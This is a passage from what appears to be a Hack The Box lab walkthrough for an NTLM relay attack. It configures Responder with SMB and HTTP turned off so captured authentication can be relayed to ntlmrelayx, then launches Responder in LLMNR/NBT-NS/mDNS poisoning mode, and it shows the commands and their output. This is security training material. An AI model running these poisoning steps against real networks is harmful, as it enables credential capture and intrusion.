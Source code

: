 Subsequently, students need to change their working directory to `tools/Responder`. They will have to turn off the SMB Server and HTTP Server, usually started by `Responder`, by altering the line in the `Responder.conf` configuration file in the same directory. This is done to allow the relayed authentication to go to `ntlmrelayx`.

Code: shell

```shell
cd tools/Responder
sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder.conf
cat Responder.conf | grep -ie "SMB =\|HTTP ="
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder.conf
htb-student@ubuntu:~/tools/Responder$ cat Responder.conf | grep -ie "SMB =\|HTTP ="
SMB = Off
HTTP = Off
```

Right after, students need to start `Responder` using `sudo` in "poisoning" mode by only specifying the `-I` parameter for the interface (`ens192`). Configuring the tool to poison every broadcast request/traffic.

Code: shell

```shell
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:80f3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6Y3FH7UTIW2]
    Responder Domain Name      [0RAB.LOCAL]
    Responder DCE-RPC Port     [45567]

[+] Listening for events...
```
